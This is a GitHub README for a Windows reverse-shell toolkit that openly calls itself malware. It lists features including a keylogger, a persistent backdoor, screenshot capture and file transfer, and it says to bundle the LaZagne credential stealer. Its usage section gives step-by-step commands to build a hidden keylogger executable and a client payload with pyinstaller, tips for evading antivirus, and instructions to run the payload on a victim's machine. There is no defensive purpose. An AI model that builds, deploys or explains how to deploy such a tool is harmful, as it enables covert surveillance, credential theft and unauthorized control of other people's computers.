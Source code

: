 # Reverse-shell-windows
Reverse shell for windows operating system

## Features
Currently this program has several features such as:
* Multi-client support
* Built-in keylogger
* Send command to all clients
* Capture screenshots
* Upload/download files
* Send messages
* Persistent backdoor
* Ability to browse files
* Open remote cmd
* Ability to shutdown/restart/lock pc
* And more...
### Usage

#### 1. Install Python
Install ```python-3.7.2``` and ```python-pip```. Follow the steps from the below reference document based on your Operating System.
Reference: [https://docs.python-guide.org/starting/installation/](https://docs.python-guide.org/starting/installation/)


#### 2. Clone git repository
```bash
git clone "https://github.com/ramkishor-hosamane/Reverse-shell-windows.git"
```

#### 3. Install requirements in server (hacker machine) 
```bash
pip3 install -r requirements.txt
```
Also copy lazagne.exe along with server.py to server machine
#### 4. Run the server
```bash
python3 server.py
```
#### 5. Craft client file (the malware)
* change ip address of host to servers ip address in client.py file. To do so find 114th line in client.py fill the ip address.(To by pass antivirus i have commented lines with some random text in between)
* edit your email id and password in keylogger.py
* Convert keylogger to .exe using 
```bash
pyinstaller.exe --onefile --icon=youricon.ico --noconsole  keylogger.py
```
*copy keylogger.exe in dat folder

* Generate the malware using 
```bash
pyinstaller.exe --onefile --icon=youricon.ico --noconsole --add-data="dat;." client.py
```
* 
#### 6. Run the malware in windows operating system 

#### 7. You'll Get access to victim system in server system 
